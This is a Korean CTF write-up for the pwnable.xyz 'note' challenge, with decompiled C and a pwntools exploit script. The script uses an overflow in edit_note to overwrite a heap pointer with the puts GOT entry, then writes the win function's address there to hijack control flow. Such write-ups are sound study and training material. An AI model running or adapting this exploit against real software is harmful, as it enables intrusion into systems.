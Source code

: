 ```yaml
---
title: "[pwnable.xyz]note"
date: 2020-1-12
ctf: Pwnable.xyz
layout: post
---
```


메인은 print_menu해주고 0번은 종료 1번은 edit_note() 2번은 edit_desc() 해준다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax

  setup();
  puts("Note taking 101.");
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        print_menu();
        v3 = read_int32();
        if ( v3 != 1 )
          break;
        edit_note();
      }
      if ( v3 != 2 )
        break;
      edit_desc();
    }
    if ( !v3 )
      break;
    puts("Invalid");
  }
  return 0;
}
```

edit_note는 원하는 사이즈만큼 받아서 전역변수 s에 값을 넣어줄 수 있다. 

```c
void edit_note()
{
  int size; // ST04_4
  void *buf; // ST08_8

  printf("Note len? ");
  size = read_int32();
  buf = malloc(size);
  printf("note: ");
  read(0, buf, size);
  strncpy(s, buf, size);
  free(buf);
}
```

edit_desc는 전역변수 buf에 입력을 받는다.

```c
ssize_t edit_desc()
{
  if ( !buf )
    buf = malloc(32uLL);
  printf("desc: ");
  return read(0, buf, 32uLL);
}
```

`edit_note` 에서 전역변수 s에 값을 넣을 때 buf 영역을 덮을 수 있다. 여기서 buf 영역을 어떤 함수의 got로 덮고 `edit_desc` 에서 `win` 함수 주소 넣어주면 해당 함수를 실행할 때 `win ` 함수가 호출될 것이다.

> exploit.py

```python
from pwn import *

def edit_note(length,content):
	sla('>','1')
	sla('?',str(length))
	sa(':',content)

def edit_desc(content):
	sla('>','2')
	sa(':',content)

if __name__ == '__main__':
	e = ELF('./challenge')
	#p = process('./challenge')
	p = remote('svc.pwnable.xyz',30016)
	sla = lambda x,y : p.sendlineafter(x,y)
	sa = lambda x,y : p.sendafter(x,y)

	edit_note(50,"A"*0x20 + p64(e.got['puts']))
	edit_desc(p64(e.symbols['win']))
	p.sendlineafter('>','3')
	p.interactive()
```